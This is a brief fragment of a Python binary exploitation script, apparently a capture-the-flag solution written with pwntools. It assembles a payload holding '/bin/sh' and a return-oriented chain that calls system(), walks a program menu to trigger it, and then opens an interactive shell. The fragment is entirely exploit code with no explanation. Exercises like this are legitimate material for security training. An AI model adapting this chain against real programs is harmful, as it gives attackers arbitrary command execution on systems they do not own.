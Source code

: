 ```python
insertSpecial(0, b'/bin/sh\x00' + p64(pop_rdi) + p64(tls_addr - 352 - 80 * 26) + p64(ret)  + p64(system))

pause()

#exit
r.sendlineafter(b'option: ', b'3')
r.sendlineafter(b'option: ', b'q')

r.interactive()
```